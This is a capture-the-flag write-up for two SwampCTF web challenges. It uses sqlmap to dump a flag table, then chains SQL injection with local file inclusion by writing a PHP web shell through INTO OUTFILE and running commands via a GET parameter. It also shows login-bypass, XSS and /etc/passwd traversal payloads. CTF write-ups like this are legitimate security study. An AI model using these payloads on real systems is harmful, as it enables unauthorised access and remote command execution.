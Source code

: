 #### BrailleDB-1

![[Pasted image 20240407223118.png]]

Try to input single quote and it gives us an error

```asciidoc
<br />
<b>Fatal error</b>: Uncaught PDOException: SQLSTATE[42601]: Syntax error: 7 ERROR: unterminated quoted string at or near &quot;'''&quot;
LINE 1: ...CT braille_representation FROM braille WHERE character = '''
^ in /var/www/html/api/braille.php:33
Stack trace:
#0 /var/www/html/api/braille.php(40): charToBraille(''')
#1 {main}
thrown in <b>/var/www/html/api/braille.php</b> on line <b>33</b><br />
```

We may have SQL injection, copy the request and save it in file, lets name it req.txt and run sqlmap on it

```shell
sqlmap -r req.txt --batch --dbs --level 3
```

```shell
[*] information_schema
[*] pg_catalog
[*] public
```

We get few database names, the one we are interested in is 'public', now enumerate the tables in the database 'public'

```shell
sqlmap -r req.txt -D public --tables --batch --level 3
```

```shell
+----------+
| braille  |
| feedback |
| flag     |
+----------+
```

We want to dump the data of table 'flag'

```shell
sqlmap -r req.txt -D public -T flag --batch --dump-all --level 3
```

And we get the flag
**_flag : swampCTF{Un10n_A11_Th3_W4yyy!}_**

---

#### UnderConstruction

Visit the given web page and in front of us we see

![[Pasted image 20240407223140.png]]

So there is a page query parameter and it id loading a page based on the name given to it, the first thing that comes to my mind is LFI so lets try adding basic LFI payload, generally the websites are hosted from /var/www/html so we need to go back atleast 3 directories

```url
http://chals.swampctf.com:60310/?page=../../../etc/passwd
```

And we get the response

```http
HTTP/1.1 200 OK
Date: Sun, 07 Apr 2024 17:04:27 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Vary: Accept-Encoding
Content-Length: 978
Connection: close
Content-Type: text/html; charset=UTF-8

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```

So there is only one user that is the root user

The hint given to us is that we have to chain 2 vulnerabilities so lets see if we can find another one as well. We can see that there is an option of Admin login lets click on that

![[Pasted image 20240407223618.png]]

Again the file being loaded using the page parameter and we know we have LFI
Lets try SQL injection on the login form

```SQL
username: admin' or 1=1-- -
password: randomData
```

And we get login successful

![[Pasted image 20240407223818.png]]

We can also see that whatever we type is being reflected back so we may also have reflected XSS, we can try that too

```SQL
username: admin' or 1=1-- -<script>alert(10)</script>
password : asdf
```

And we get a pop up

![[Pasted image 20240407224140.png]]

This is although useless but good to try and find other vulnerabilities as well for practice

Now we need to chain SQL injection and LFI, how can we do that?

Lets try using SQL Union queries and find the number of columns

```SQL
username: a' or 1=1 union select 1 from information_schema.tables-- -
password: asdf
```

It gives back the response

![[Pasted image 20240407224544.png]]

```text
Login failed! Please try again.
The used SELECT statements have a different number of columns
```

Lets try with 2 columns

```SQL
a' or 1=1 union select 1,2 from information_schema.tables-- -
```

Still Login failed
Now with 3 columns

```sh
a' or 1=1 union select 1,2,3 from information_schema.tables-- -
```

And we get a successful login

![[Pasted image 20240407224736.png]]

```asciidoc
Login successful! Welcome back, a' or 1=1 union select 1,2,3 from information_schema.tables-- -!
```

The next step was new to me. The thing is even though it shows login successful, nothing changes, no cookie is set whatsoever nor does the previous page which had site under construction changes so we need to do something with just the SQL commands.
First I try to figure out the version of SQL and more information about the database
using sqlmap, we can also do it manually

I found this

```asciidoc
web application technology: Apache 2.4.54, PHP 7.4.33
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
```

This step is where it gets interesting, these is a command called `into outfile`

This is what the official documentation says

``SELECT INTO OUTFILE` writes the resulting rows to a file, and allows the use of column and row terminators to specify a particular output format.`

You can read more about it on [Into Outfile](https://mariadb.com/kb/en/select-into-outfile/)

Basically we want to write to a file then open it using LFI, in that file we pass command injection payload like

```php
<?php system($_GET['cmd']);?>
```

Since the server is running on php, this should work
Here is what our SQL query will look like

```SQL
' union select null,null,"<?php system($_GET['cmd']);?>" into outfile "/tmp/command.php"-- -
```

![[Pasted image 20240407232425.png]]

We will get a login failed but that doesnt matter
Now all we have to do is open this file using LFI and add query parameter `cmd` to the request, this is how our request will look like

```url
http://chals.swampctf.com:60310/?page=../../../tmp/command.php&cmd=id
```

![[Pasted image 20240407232503.png]]

We pass `ls` to command parameter and find out that the name of file is `super_secret_flag_plz_no_read.txt`

![[Pasted image 20240407232545.png]]

Lets do

```url
http://chals.swampctf.com:60310/?page=../../../tmp/command.php&cmd=cat%20%20super_secret_flag_plz_no_read.txt
```

And we get the flag

![[Pasted image 20240407232639.png]]

**_flag : swampCTF{ch4ining_Vu1ns_I5_Pr3tty_C0Ol}_**
